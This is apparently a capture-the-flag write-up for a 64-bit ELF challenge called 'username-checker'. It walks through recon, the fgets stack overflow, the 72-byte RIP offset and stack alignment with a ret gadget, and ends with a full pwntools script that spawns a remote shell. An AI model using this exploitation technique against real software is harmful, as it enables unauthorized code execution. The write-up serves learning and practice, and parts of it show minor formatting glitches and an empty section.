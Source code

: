 # CTF Write-up — `username-checker` (ret2win with stack alignment)

## Overview

- **Target:** `username-checker.challs.sekai.team:1337`  
- **Binary:** `checker` (ELF 64-bit, dynamically linked, **No PIE**, **NX enabled**, **no canary**, **Partial RELRO**)  
- **Goal:** Reach `win()` which prints a line then executes `system("/bin/sh")`.

---

## Recon

```bash
$ file checker
checker: ELF 64-bit LSB executable, x86-64, dynamically linked, not stripped

$ checksec --file=./checker
RELRO           STACK CANARY      NX           PIE
Partial RELRO   No canary found   NX enabled   No PIE

$ objdump -d ./checker | grep '<win>'
0000000000401236 <win>:
```
Decomp (relevant):

```c

char local_48[44];  // 44-byte stack buffer

void check_username(void) {
  printf("please enter a username you want to check: ");
  fgets(local_48, 0x80, stdin);           // BUG: reads up to 0x7f bytes into 44 bytes
  ...
  if (strcmp(local_48, "super_secret_username") == 0)
      win();
}

void win(void) {
  puts("how did you get here?");
  system("/bin/sh");
}
```
### Vulnerability
- Classic stack overflow: fgets(local_48, 0x80, ...) writes up to 0x7f bytes into a 44-byte buffer, with no canary.
With PIE disabled, code addresses are static: we can overwrite RIP with win().

- Finding the RIP Offset
Use a cyclic pattern; crash shows saved RIP overwritten at 72 bytes.

```ini

OFFSET = 72
```
### Stack Alignment Gotcha (important)
On modern Ubuntu/glibc (SysV AMD64 ABI), the stack must be 16-byte aligned at call sites of libc functions.
Jumping directly to win() (which calls system) can misalign %rsp, causing system to misbehave or exit.

### Fix: Put a single ret gadget before win() to pop 8 bytes and realign the stack.

```python

RET = 0x40101a      # any 1-instruction 'ret' in .text
WIN = 0x401236
Exploit (remote)
python
Sao chép mã
from pwn import *

host, port = "username-checker.challs.sekai.team", 1337
OFFSET = 72
WIN    = 0x401236
RET    = 0x40101a   # single 'ret' for 16-byte alignment

io = remote(host, port)
io.recvuntil(b"please enter a username you want to check: ")

payload  = b"A"*OFFSET
payload += p64(RET)
payload += p64(WIN)
payload += b"\n"

io.send(payload)
io.interactive()
```

### Why This Works
- A*72 → overwrite up to saved RIP.

- ret gadget → aligns the stack to 16 bytes.

- win() executes and calls system("/bin/sh").

- With No PIE, addresses 0x40101a and 0x401236 are constant both locally and remotely.

Reproduction Steps
Confirm win and a ret gadget:



### Takeaways
- No PIE ⇒ easy ret2win with hardcoded addresses.

- Always ensure 16-byte stack alignment before code paths that call into libc (system, printf, etc.).

- If an interactive shell is unreliable, stuff commands and shutdown write to get deterministic output.


